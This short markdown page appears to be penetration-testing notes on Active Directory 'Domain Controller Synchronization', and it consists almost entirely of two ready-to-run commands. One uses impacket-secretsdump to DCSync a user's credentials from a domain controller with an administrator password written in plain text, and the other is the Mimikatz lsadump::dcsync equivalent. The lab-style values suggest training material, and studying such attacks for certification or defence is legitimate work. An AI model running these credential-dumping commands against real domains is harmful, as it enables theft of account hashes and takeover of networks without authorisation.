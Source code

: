# Domain Controller Synchronization



{% code overflow="wrap" %}
```sh
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```
{% endcode %}



{% code title="Mimikatz" %}
```
lsadump::dcsync /user:corp\dave
```
{% endcode %}



